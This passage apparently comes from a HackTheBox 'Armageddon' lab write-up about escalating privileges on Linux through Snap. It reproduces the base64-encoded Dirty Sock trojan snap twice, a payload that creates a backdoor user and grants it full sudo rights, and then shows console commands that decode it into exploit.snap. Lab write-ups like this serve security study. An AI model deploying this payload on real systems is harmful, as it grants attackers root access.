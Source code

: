 Snap is an attempt to simplify the process of packaging applications on Linux systems, and as a result, new competing standards are emerging.

It is possible to find exploits for Snap, such as the one described in this article: https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html.

The payload for this exploit can be obtained from the following link: https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py:

```python
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')
```

Let's create a file using that:
```console
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $cat exp_create.py
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
               + 'A' * 4256 + '==')

print(TROJAN_SNAP)
┌─[evyatar@parrot]─[/hackthebox/Armageddon]
└──╼ $ python3 exp_create.py | base64 -d > exploit.snap
```

